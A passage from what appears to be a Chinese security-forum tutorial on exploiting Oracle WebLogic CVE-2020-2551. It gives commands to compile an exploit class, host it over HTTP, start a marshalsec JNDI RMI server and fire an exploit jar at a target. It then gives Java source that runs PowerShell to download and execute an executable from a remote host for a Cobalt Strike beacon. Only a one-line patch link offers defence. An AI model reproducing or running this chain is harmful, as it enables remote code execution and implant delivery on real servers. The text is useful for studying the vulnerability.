java编译exp.java

```php
javac exp.java -source 1.6 -target 1.6
```

![image-20210814230430269](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8e8b2d3c2c025b60378d949a865d50522cd932c4.png)

接着python开启http服务,与exp.class在同一文件夹即可

![image-20210814230710705](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6116d9efeee277003d80f99e59895bf38d9a896e.png)

使用marshalsec启动一个rmi服务

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.108/#exp" 12345
```

![image-20210814230935474](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8212cda0a506ed4bcbc65e407612a431eac438ac.png)

使用工具weblogic\_CVE\_2020\_2551.jar，执行exp

```php
java -jar weblogic_CVE_2020_2551.jar 192.168.0.105 7001 rmi://192.168.0.108:12345/exp
```

![image-20210814231847184](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9820a62402af8ab4b797620d26558597d3457cc5.png)

可以看见成功弹出

![image-20210814231822800](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d20f40356f11db9a7f606291ecebdc7add1348e2.png)

同理，上线cs的话，只需改exp.java代码即可，后续步骤一样

```php
import java.io.IOException;
public class exp {
    static{
        try {
            java.lang.Runtime.getRuntime().exec(new String[]{"powershell","/c"," (new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/zcc.exe','zcc.exe');start-process zcc.exe"});
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {

    }
}
```

##### 安全防护

使用官方补丁进行修复：<https://www.oracle.com/security-alerts/cpujan2020.html>